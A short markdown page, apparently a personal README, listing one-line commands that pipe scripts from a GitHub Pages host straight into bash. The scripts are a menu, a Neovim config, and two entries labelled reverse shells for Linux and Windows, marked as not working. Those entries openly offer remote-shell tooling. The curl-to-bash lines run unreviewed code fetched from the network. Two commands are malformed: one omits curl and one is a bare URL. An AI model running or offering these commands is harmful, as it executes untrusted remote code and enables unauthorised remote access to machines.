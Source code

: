 # Online menu
```bash
bash <(curl https://3lv.github.com)
```

# Neovim config
```bash
bash <(curl https://3lv.github.com/nvim)
```

# Reverse shell for Linux(NOT WORKING)
> Very limited, requires netcat with -e flag
```bash
bash <(https://3lv.github.com/rl)
```

# Reverse shell for Windows(NOT WORKING)
```bash
https://3lv.github.com/rw
```
